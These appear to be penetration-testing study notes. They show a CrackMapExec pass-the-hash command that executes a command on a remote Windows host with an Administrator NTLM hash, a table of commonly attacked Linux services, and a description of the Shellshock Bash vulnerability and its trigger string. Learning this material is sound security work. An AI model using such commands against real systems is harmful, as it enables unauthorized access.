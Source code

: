 **Second method : Crackmapexec**

This is the NTLM hash.

```bash
john@attack> crackmapexec smb 10.3.21.247 -u Administrator -H "e3c61a68f1b89ee6c8ba9507378dc88d" -x "ipconfig"
```

### Frequently exploited Linux services

* Linux is a free an open source operating system that is comprised of the Linux kernel, which was developed by Linux Torvalds, and the GNU toolkit, which is a collection of software and utilities that was started and developed by Richard Stallman.
* This combination of open source software is what makes up the Linux OS as a while, and it is commonly referred to as GNU/Linux.
* Linux has various use cases, however, it is typically deployed as a server operating system. For this reason, there are specific services and protocols that will typically be found running on a Linux server.
* These services provide an attacker with an access vector that they can utilize to gain access to a target host.
* Having a good understanding of what these services are, how they work and their potential vulnerabilities is a vitally important skill to have as a penetration tester.

| Protocol/Service             | Ports            | Purpose                                                                                                                                                                       |
| ---------------------------- | ---------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Apache Web Server            | TCP ports 80/443 | Free and open source cross-platform web server released under the Apache License 2.0. Apache accounts for 80% of web servers globally.                                        |
| SSH (Secure Shell)           | TCP port 22      | SSH is cryptographic remote access protocol that is used to remotely access and control systems over an unsecured network. SSH was developed as a secure successor to telnet. |
| FTP (File Transfer Protocol) | TCP port 21      | FTP (File Transfer Protocol) is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients and vice versa.                   |
| SAMBA                        | TCP port 445     | Samba is the Linux implementation of SMB, and allows Windows systems to access Linxu shares and devices.                                                                      |

### CVE-2014-6271 (Shellshock)

#### Description

* Shellshock is the name given to a faimly of vulnerabilities in the Bash shell (since V1.3) that allow an attacker to execute remote arbitrary commands via Bash, consequently allowing the attacker to obtain remote access to the target system via a reverse shell.
* The Shellshock vulnerability was discovered by Stéphane Chazelas on the 12th of September 2014 and was made public on the 24th of September 2014.
* Bash is a \*Nix shell that is part of the GNU project and is the default shell for most Linux distributions.
* The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters `() {:;}`.
* This vulnerability only affects Linux as Windows does not use utilize Bash as it is not a \*Nix based operating system.
* In the context of remote exploitation, Apache web servers configured to run CGI scripts or `.sh` scripts are also vulnerable to this attack.
* CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.

